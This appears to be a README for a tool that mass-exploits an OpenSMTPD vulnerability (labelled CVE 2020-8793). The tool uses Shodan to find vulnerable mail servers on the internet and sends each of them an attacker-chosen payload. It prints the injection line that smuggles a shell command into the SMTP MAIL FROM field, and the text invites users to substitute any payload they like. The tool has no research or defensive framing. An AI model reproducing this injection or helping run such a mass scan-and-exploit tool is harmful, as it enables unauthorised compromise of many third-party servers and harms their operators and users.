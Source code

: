 # OpenSMTPD
A mass exploitation tool for CVE 2020-8793 

----------------------------------------------------------------------------------

# Info

The Shodan API to find vulnerable devices and mass sends a payload to the target

To customize the payload :

s.send(bytes(f'MAIL FROM:<;{payload};>\r\n', 'utf-8'))

Change the variable 'payload' to your desired payload 

----------------------------------------------------------------------------------


# TODO

- [x] Release Main Code
- [X] Add Threading
- [x] Add Payload Input
- [x] Make Error Outputs
- [x] Make Time Logs

----------------------------------------------------------------------------------

# Systems

- Tested Systems:
  - Parrot OS Home
  - Kali Linux Mate
  - Windows 10
  - Windows 7
  - Ubuntu 20.1

